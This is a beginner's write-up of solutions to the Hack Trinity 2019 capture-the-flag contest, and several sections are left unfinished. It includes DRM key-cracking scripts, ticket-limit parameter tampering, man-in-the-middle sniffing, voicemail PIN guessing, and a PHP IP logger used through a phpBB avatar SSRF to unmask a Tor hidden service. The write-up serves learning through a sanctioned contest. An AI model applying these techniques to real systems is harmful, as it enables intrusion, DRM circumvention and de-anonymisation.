

# Hack Trinity '19 Writeups

I had a lot of fun participating in the [Hack Trinity '19 CTF](https://hacktrinity.me/) competition this month. It was  my first time every trying anything like this so I wasn't at all prepared and I had to learn a lot of new skills on-the-fly. Nonetheless, I was fairly pleased with my result and I'll definitely be competing again next year!

Here are some brief writeups for the challenges I managed to solve:

* [Solved Problems](#solved-problems)
	* [Welcome to Hack Trinity](#welcome-to-hack-trinity)
	* [RTFR](#rtfr)
	* [Say no to phishing](#say-no-to-phishing)
	* [Denovo 1](#denovo-1)
	* [Bunny](#bunny)
	* [Book of Kells 1](#book-of-kells-1)
	* [LUAS](#luas)
	* [Trinity Ball 1](#trinity-ball-1)
	* [Welcome](#welcome)
	* [Dust in your eyes?](#dust-in-your-eyes)
	* [GNU](#gnu)
	* [Who Am I?](#who-am-i)
	* [Brew](#brew)
	* [Denovo 2](#denovo-2)
	* [Turing-Lang](#turing-lang)
	* [Big Chungus+3](#big-chungus)
	* [Wise](#wise)
	* [Zippy](#zippy)
	* [Flow](#flow)
	* [Call me maybe](#call-me-maybe)
	* [Not Forgotten](#not-forgotten)
	* [Book of Kells 2](#book-of-kells-2)
	* [Nat a flag](#nat-a-flag)
	* [Denovo 3](#denovo-3)
* [Unsolved Problems](#unsolved-problems)
* [Conclusion](#conclusion)

## Solved Problems

### Welcome to Hack Trinity

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`intro` | `50` | 

#### Challenge:

	If you've never played a Capture-The-Flag competition before, worry not!
	The aim of the game is to find a string of text called a flag
	Usually the flag will be in the form HackTrinity{}, but sometimes it can be a different piece of text
	To receive a free 50 points, enter HackTrinity{well_that_was_a_freebie} in the box below, and click Check.

#### Solution:

Simple enough. Free points.

### RTFR

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`intro` | `75` | 

#### Challenge:

	Oooh, we Trinity students love our rules and procedures.
	We love them so much we included a flag in the rules for this competition. Can you find it?

#### Solution:

Another simple one - no need for an explanation here.

### Say no to phishing

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`misc` | `77` | 

#### Challenge:

	What's our real Twitter handle?

#### Solution:

The last of the *"zero-effort"* problems.

###  Denovo 1

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`reversing` | `100` | 

#### Challenge:

	Denovo is a new startup which develops DRM for games.
	Version 1 is to be released soon, and you've been called in to test its effectiveness...
	Note: Denovo have decided that serial keys for v1 and all future versions look like "XXXXXX-XXXXXX-XXXXXX-XXXXXX-XXXXXX", where 'X' is a capital letter.
	Both binaries below are generated from the same code, one is built for ARM platforms and one for x86-64. You can choose whichever you're most comfortable with :)

#### Solution:

On to the real problems. I chose the x86-64 binary because I can execute it on my machine.

I quickly executed it to see how the program worked:


I then extracted all of the relatively long strings from the binary using the following command:

`strings denovo_v1 | awk 'length($0) > 10'`

There were a number of strings relating to input and ouput such as `please enter your serial key`, etc.

I ran a `hexdump` on the binary and found the start of the section relating to input and output:


There is a curious pattern of `Z`s right before the regular text begins: six character followed by a `Z` followed by six more characters. The `Z`s must be the encoded form of the hyphens!

Since the ASCII code for `Z` is `0x5A` and the ASCII code for `-` is `0x2D` then in order to decode the data we simply perform one binary shift right on each character.

All that was left to do was throw together a quick Python script and decode the key:

```python
k = [
	0x96,0x9e,0x86,0xb0,0xb4,0x8c,0x5a,
	0xac,0x88,0x96,0xaa,0x94,0xae,0x5a,
	0x88,0x9c,0xa4,0x86,0xac,0x8a,0x5a,
	0x8c,0x9c,0x8e,0x9c,0xa8,0xb4,0x5a,
	0xb0,0xb4,0x86,0x8e,0xac,0xb0
]
print "".join([chr(c >> 1) for c in k])
```

This gives us `KOCXZF-VDKUJW-DNRCVE-FNGNTZ-XZCGVX`. If we execute the program and enter this key we're asked to enter a number between 1-100, once we guess the number we receive our flag:

`HackTrinity{n0_drm_1s_uNBreAkable}`

### Bunny

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`forensics` | `100` | 

#### Challenge:

	TCD Disinformation Services have been hard at work making sure that any flag-containing media is fully censored.
	Apparently one slipped through... Can you find it?

#### Solution:

The reason I've given this challenge a difficulty of *'medium'* rather than *'easy'* is because of the sheer amount of time I spent trying to use steganography and other techniques to search for the flag.

I extracted strings, looked through metadata, put it through an MKV decoder, ran a `binwalk` for hidden files, ran colour plane analysis using steganography tools, etc ...

Turns out the answer was right in front of me the whole time.

The title of the file is:

`SGFja1RyaW5pdHl7MXRzX24wdF9qVXNUX2FiMHV0X3RoM192MWRlMH0K`

If we run it through a [base64 decoder](https://www.base64decode.org/) out pops our flag:

`HackTrinity{1ts_n0t_jUsT_ab0ut_th3_v1de0}`

This challenge took me way longer than it should have ...

### Book of Kells 1

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`darkweb/recon` | `113` | 

#### Challenge:

	Oh noes! Someone's stole the Book of Kells and is auctioning it off on the Dark Web!
	Download the Tor Browser and visit the auction site at http://uxpkyayer253dtcl.onion to find out who's been making bids on this Trinity treasure :O

#### Solution:

This was a simple one. If we visit the hidden service and go to the only thread on the forum we'll find the flag sitting at the bottom:


### LUAS

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`blockchain/recon` | `114` | 

#### Challenge:

 	The Luas website has been hacked again, and a threatening ransom message posted. Can you track down the culprit's real full name? https://luas.hacktrinity.me 

#### Solution:

Visiting the website gives us this Zcash address: `t1gok64PM8APnrSWXgBxboqHrszFYqP5v3L`.

I looked it up on a [Zcash blockchain explorer](https://explorer.zcha.in/) and found an account with only one or two transactions. If we follow their transactions we'll find another account or two with only a handful of transactions. Eventually we'll reach an account that is entirely barren, if we Google their Zcash address we'll find a blog containing the culprit's full name:



And that's our flag!

### Trinity Ball 1

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`web` | `119` | 

#### Challenge:

	Tickets for Trinity Ball have finally been released! Due to high demand, the organisers have limited tickets to one per person. Can you bypass the restrictions and checkout two tickets at once?
	https://trinityball1.hacktrinity.me

#### Solution:

If we visit the page and click the button we'll be taken to an order page:


We can add an item and then proceed to the checkout. We won't be given our flag, however.

By taking a look at the page's source code we can see that the following GET request is made when we purchase a ticket:

```javascript
fetch("addItemToBasket.php?id=" + id).then(function(res) {
	res.json().then(function(json) {
		refreshBasket();
	})
});
```

If we try and make the following request `https://trinityball1.hacktrinity.me/addItemToBasket.php?id=2` then we'll be told our request is invalid. But if we replace the `2` with a `1` and make the same request multiple times then we'll be able to add as many tickets as we want to our basket.

If we proceed to the checkout we'll be awarded our flag:

`HackTrinity{client_side_is_best_side}`

### Welcome

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`networking` | `120` | 

#### Challenge:

	Each challenge has a dedicated OpenVPN server ... (instructions for setting up OpenVPN, etc) ... that challenge will be destroyed (and re-created next time you connect).
	Once you're all set up, this challenge should be fairly easy: you should be able to nmap your allocated subnet to find a web server hosting the flag.

#### Solution:

If we install OpenVPN, download the config file and follow the setup instructions closely then we should be able to get connected easily enough.

We can find the IP we need to scan as well as our allocated subnet by running `ifconfig`:

`img here`

Using a [subnet calculator](http://www.subnet-calculator.com/) we can convert the `255.255.255.240` into `28` mask  bits.

Now we can run our scan using nmap `nmap -v -sn 10.0.0.0/28`:

`img here`

If we visit the resulting IP we'll find a web page containing our flag:

`flag`


### Dust in your eyes?

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`crypto/steganography` | `121` | 

#### Challenge:

	Apparently the flag is in the file hidden.txt but I can't find it, good luck to you!

#### Solution:

If we open the file in a text editor we can see a number of suspicious looking characters:


These characters include `U+200C` (zero width non-joiner), `U+200D` (zero width joiner) and `U+202C` (pop directional formatting).

By quickly Googling "zero width steganography" I found a [handy tool](https://330k.github.io/misc_tools/unicode_steganography.html) to decode the file.

If we paste in the text from the file and click decode we get our flag:

`HackTrinity{clean your glasses}`

### GNU

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`networking` | `130` | 

#### Challenge:

	You should really listen a bit more.

#### Solution:

This is another OpenVPN challenge so we can just repeat the steps from *Welcome* when setting up.

The challenge statement made it clear that we'd need to listen to the traffic on our VPN interface. If we open up Wireshark and start listening to the `tap0` interface set up by OpenVPN we'll quickly find our flag:

`img here`

### Who Am I?

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`recon` | `143` | 

#### Challenge:

	We discovered a GSM audio bug in the president's office. Our counter-surveillance techs have determined that the bug was setup to phone home to +353 89 490 9392. We suspect this number is probably the personal phone number of one of the bad people involved (they're not very smart). Can you use your open-source intelligence gathering skills to discover the real-life identity of the owner of this phone?
	Hint: they use a service used by >1 billion other people

#### Solution:

Due to the hint, I spent quite a while trying to find the flag via Facebook (since the phone number appeared to be registered there). However, if we try to find the phone number on WhatsApp we'll quickly find the flag hidden in the user's profile picture:


### Brew

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`misc` | `150` | 

#### Challenge:

	I was trawling through my email the other day to see if I could find any flags and I found a message with this file in my spam box.
	The subject line claimed "FLAG WITHIN!", but I can't make any sense of it.

#### Solution:

The attached file was of the type `cia`. Since I already had the 3DS emulator [Citra](https://citra-emu.org/) installed on my laptop this gave the entire thing away. By opening the file in Citra we can get our flag:


This challenge was quite fun!

### Denovo 2

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`reversing` | `175` | 

#### Challenge:

	After Denovo v1 was released into the wild (despite your warnings) and cracks for the protected games appeared online within the hour, the engineers went back to the drawing board.
	Now they're ready to release Denovo v2. Apparently the new version makes use of a proprietary encryption solution which is UNCRACKABLE. Can you take a look?
	Both binaries below are generated from the same code, one is built for ARM platforms and one for x86-64. You can choose whichever you're most comfortable with :)

#### Solution:

Once again, I downloaded the x86-64 version. I repeated the steps from *Denovo 1* and found the following data in the `hexdump` output:


In between `HackTrinity{` and `[0;34m[denovo]` there's a weird stream of characters. It's too long to be a serial key so maybe it's our flag. We can assume that the first character `0x1B` corresponds to the `H` in *"HackTrinity"* (`0x48`).

The most obvious binary operation that will convert `0x1B` to `0x48` is an XOR, especially considering how popular XOR is in encryption. To get `0x48` as a result we would need to XOR `0x1B` with `0x53`.

We can write another simple Python script to decode the flag:

```python
k = [
	0x1b, 0x32, 0x30, 0x38, 0x07, 0x21, 0x3a,
	0x3d, 0x3a, 0x27, 0x2a, 0x28, 0x3b, 0x63,
	0x24, 0x0c, 0x37, 0x3c, 0x0c, 0x62, 0x0c,
	0x38, 0x3d, 0x1c, 0x24, 0x0c, 0x27, 0x3b,
	0x60, 0x0c, 0x35, 0x3f, 0x13, 0x34, 0x0c,
	0x62, 0x20, 0x0c, 0x21, 0x62, 0x14, 0x3b,
	0x27, 0x2e
]
print "".join([chr(c ^ 0x53) for c in k])
```

The flag is: `HackTrinity{h0w_do_1_knOw_th3_fl@g_1s_r1Ght}`


### Turing-Lang

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`programming` | `179` | 

#### Challenge:

	My friend Urban Turing made a new language and he claims that it is Turing complete, can you run the program he has written in this new language? 

#### Solution:

The name Urban Turing must be a reference to [Urban Müller](https://esolangs.org/wiki/Urban_M%C3%BCller) (and Alan Turing of course) - which means we're probably dealing with Brainfuck. Since we can assume that this program, when run, will print out the flag all we need to do is use a [Brainfuck text generator](https://copy.sh/brainfuck/text.html) to find out what our code *should* look like  and then begin matching and replacing characters. I entered "HackTrinity{" into the generator and got the following:

`-[------->+<]>-.[--->++++<]>+ ...`

Our challenge code looks like:

`#/#######>&<\># /###>&&&&<\>& ...`

We can make the following replacements:

* `#` with `-`
* `/` with `[`
* `&` with `+`
* `\` with `]`
* ` ` with `.`
* `<` and `>` remain the same

The resulting code is:

`-[------->+<]>-.[--->++++<]>+.++.++++++++.>-[--->+<]>-.-[--->+<]>+.---------.+++++.-----.+++++++++++.+++++.++.[->+++++<]>++.----------.+++++.+++++++++++.-.++++++.+[->+++<]>.++++++++++++.+++.+.++++++++.--[->+++<]>.+++++++++++++.-------.+++++++++..[--->+<]>-.++++.`

Which gives us:

`HackTrinity{i_dont_know_lenny}`

### Big Chungus+3

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`programming` | `180` | 

#### Challenge:

	Some normie sent you some strange code, can you find out how to run it?

#### Solution:

Like the previous challenge, we're dealing with Brainfuck. We do another word replacement:

* `chunga` with `-`
* `fudd` with `[`
* `big` with `>`
* `karen` with `+`
* `chungus` with `<`
* `ricardo` with `]`
* `chunky` with `.`

Remove all whitespace and then run our code through an online compiler:

`HackTrinity{TheseMemesAreSo0O0oLastMonth}`

### Wise

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`networking` | `180` | 

#### Challenge:

	Hey, it's rude to eavesdrop!


#### Solution:

We setup OpenVPN as before and start scanning with nmap. There are two additional hosts up:

`img here`

Based on the problem statement, as well as the suggestive number of hosts, we can probably assume we've got to implement some sort of man-in-the-middle attack.

I hadn't a clue how to do this so I did some Googling and found out about Ettercap. It was already installed on my Kali machine so I opened it up.

to-do

...

Once we've got Ettercap running we can open up Wireshark and begin listening. Sure enough, there's our flag, as well as a conversation that I spent way too much time listening to:

`img here`

### Zippy

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`forensics` | `184` | 

#### Challenge:

	This zip file seems to be corrupted, any chance you could recover the flag inside?

#### Solution:

If we run a `binwalk` on the archive it doesn't look at all suspicious. If we extract strings we'll find the name of the file inside: `flag.txt`. However, we can't access the this file because the archive's corrupted.

I moved over to Windows and tried to run the WinRar recovery tool on the archive, but to no avail.

After a bit of investigation I discovered that the header at the start of the archive was actually `50 4B 03 04 2D 00 00 00`, the header for a `.jar` file, and not `00 .. 00`, the header for a `.zip` file!

By changing the appropriate bytes in a hex editor we can fix the archive and extract our flag:

`flag`

### Flow

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`exploit` | `191` | 

#### Challenge:

	I set up a server so I can check on the flag for this challenge.
	You can find it at ht3.hacktrinity.me:1337 (to connect using netcat, run nc ht3.hacktrinity.me 1337)
	Don't worry, it's password-protected, so you won't be able to get it.
	Here's the program running on the server (not that it'll help you since I've replaced the password and flag with rubbish):

#### Solution:

This was one was really fun!

### Call me maybe

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`phreaking` | `217` | 

#### Challenge:

	Miers Porgan has been caught hacking into voicemails again.
	Can you figure out how he got into mine?
	+353 76 680 3900 

#### Solution:

To solve this one you simply needed to use a VoIP app to call the provided number. I used Skype with a free trial. You'll be asked to enter a two-digit voicemail password and will be able to get the flag once you've entered the correct one via trial-and-error:

`12986876283467881467242`

### Not Forgotten

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`forensics` | `231` | 

#### Challenge:

	A friend of mine keeps a portable Linux install on his USB drive.
	I passed by the other day and saw a flag on his screen, which he quickly alt-tabbed away from.
	Since I really want that flag, I grabbed the drive and made an image of it while he was off at lunch, but I can't seem to find any sign of a flag. Can you help?

#### Solution:

I spent a long time trying to mount the image and bricked a USB in the process - I didn't get anywhere with that endeavour.

Then I ran the following command `strings disk.img | awk '$0 ~ /flag/'` and found this: `flag.png`!

I used the forensics tool Foremost to extract all `.png` files from the disk image: `foremost -t png -i disk.img`

In the output folder was the image containing our flag:


### Book of Kells 2

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`darkweb/forensics` | `237` | 

#### Challenge:

	The purpose of Tor Hidden Services is to hide the IP address of the server that is hosting the website. However, can you identify the real IP address the forum software is running on?
	Hint: SSRF
	http://uxpkyayer253dtcl.onion
	Enter the flag as an IPv4 address, e.g. 1.33.4.2

#### Solution:

Using the *"SSRF"* hint, as well as the fact that the forum uses [phpBB](https://www.phpbb.com/) I did a bit of research to see if there were any big vulnerabilities out there: [bingo](https://vuldb.com/?id.111233)!

If we create an account via the forum and go to our profile page we can see that the forum allows us to specify a remote avatar:


I created a web server that contained a page with the following PHP code:

```php
<?php

    $i = $_SERVER['REMOTE_ADDR'] . "\n";
    $f = fopen('log.txt', 'a');
    fwrite($f, $i);
    fclose($f);

?>
```

If we make this URL look like an image file http://not.my.server/log.php?i=image.png` and then set it as our remote avatar then we'll find the hidden service's IP address in the file `log.txt`:

`95.179.146.250`

### Nat a flag

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`networking` | `283` | 

#### Challenge:

	A guy I know keeps his flags on a private webserver inside his home network. I really want those flags, any chance you could help? (For this challenge you can assume that your allocated subnet is "the internet")

#### Solution:

Once again we carry out the standard OpenVPN setup and run an nmap scan.

...

### Denovo 3

Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`reversing` | `300` | 

#### Challenge:

	When the "encryption" behind Denovo v2 fell almost as quickly as v1, management decided to fire all of the engineers and start over.
	After months of work, Denovo v3 is finally for prime-time. Did the new team's efforts pay off?
	Both binaries below are generated from the same code, one is built for ARM platforms and one for x86-64. You can choose whichever you're most comfortable with :)

#### Solution:

This was a tough one. I spent a long time trying to solve this one and - due to the amount of different methods I tried before finding the correct approach - it would too cumbersome to document every incorrect step I took. Instead I'm just going to describe the correct steps without detailing the many tangents I went down and mistakes I made.

Disassembling the binary with `objdump` reveals that there is initially a method called `denovo_layer0` which uses the serial key to decrypt (using [RC4](https://en.wikipedia.org/wiki/RC4)) another layer of code - what happens then is currently a mystery.


If we run `strace ./denovo_v3` and then enter a serial key we discover something very interesting:


Looking at the call to `memcpy` shows us that the program might be checking to see if the first two characters of the serial key are correct before moving on.

In order to test this hypothesis we can write a Python script to brute force the first two characters of the key:

```python
import string

a = string.ascii_uppercase
c = "python -c 'print \"%s%sXXXX-XXXXXX-XXXXXX-XXXXXX-XXXXXX\"' > x && ltrace ./denovo_v3 < x\n"

with open("command", "w+") as f:
	for x in a:
		for y in a:
			f.write(c % (x, y))
```

We can run the file and output the results to a file like so: `command > out 2>&1`. Upon inspection we can find that when the serial key begins with `BY` the following line is output: `Couldn't load ELF object /proc/self/fd/3: No such file or directory`. This doesn't occur for any other input - however this isn't much to go on. Let's run `strace` instead and compare the difference in outputs between `BY` and `XX`.

For `BY` these lines are both printed at some point:
`openat(AT_FDCWD, "/dev/shm/denovo_18588_layer1", O_RDWR|O_CREAT|O_EXCL|O_NOFOLLOW|O_CLOEXEC, 0600) = 3`
`openat(AT_FDCWD, "/dev/shm/denovo_18588_layer2", O_RDWR|O_CREAT|O_EXCL|O_NOFOLLOW|O_CLOEXEC, 0600) = 4`

But for `XX` only this line is printed:
`openat(AT_FDCWD, "/dev/shm/denovo_18588_layer1", O_RDWR|O_CREAT|O_EXCL|O_NOFOLLOW|O_CLOEXEC, 0600) = 3`

We know have a way to detect when each two character pair is correct. We can try and write a Python script to generate the key:

```python
import os, string

alphabet = string.ascii_uppercase
pairs = [(x + y) for x in alphabet for y in alphabet]

def keygen():

	key = ""
	suffix = "XXXX-XXXXXX-XXXXXX-XXXXXX-XXXXXX"

	layer = 1

	while layer <= 15:
		nextChars = getNextChars(key, suffix, layer)
		if nextChars == "error": return "error"
		key += nextChars
		suffix = suffix[2:]
		layer += 1

	return key

def getNextChars(key, suffix, layer):

	success = "layer" + str(layer + 1)
	
	for pair in pairs:
		test = key + pair + suffix
		output = testKey(test)
		if success in output: return pair

	return "error"

def testKey(key):
	cmd = "python -c 'print \"%s\"' > x && strace ./denovo_v3 < x 2>&1\n" % key
	return "".join(os.popen(cmd).readlines())

print keygen()
```

This takes quite a while to run and when it finally reaches the last layer ... it stops working. If we run an strace and manually enter the characters of the key we'd managed to decode so far we can see that it looks for `app` not `layer15`.


If we modify the first Python script to test each combination of the last two characters and search for `app` in the output we'll be able to find the serial key: `BYOZXY-LTDBTA-MQDVVF-OJXJFQ-KVLQEZ`.

If we enter the serial key the program opens Doom in our browser. Upon starting the game we can see that the menu image has been modified:


There doesn't seem to be a flag hidden anywhere in the game's menu so let's try and get the archive for the game itself. The page that was opened in the browser contains a base64 encoded zip archive. We can convert and extract it.

## Unsolved Problems

Unfortunately I didn't manage to solve *Piconvert*, *Trinity Ball 2*, *PHPOurAdmin* or *Denovo 4*.

For *Piconvert* I spent a long time trying to implement a reverse shell by exploiting the [ImageTragick](https://imagetragick.com/) vulnerability. However, while I could get the exploit to work in simple ways, I wasn't able to get the reverse shell to connect :(

For *Denovo 4* I used a tool called sysdig as a workaround for not being able to debug the program itself (using gdb, ltrace, etc). I spent a few hours trying to make heads or tails of the data log and erroneously thought I'd found the serial key. The one I found began with *"AHACRY-BB..."* but didn't work, sadly.

I'm confident that with another day or so of work I would've been able to solve a few of them - but oh well.

## Conclusion

While I was disappointed that I didn't manage to solve all of the problems I was still relatively pleased with my score and position on the leaderboard. It was my first attempt at this sort of thing so hopefully with some practice I'll be able to do better next year!

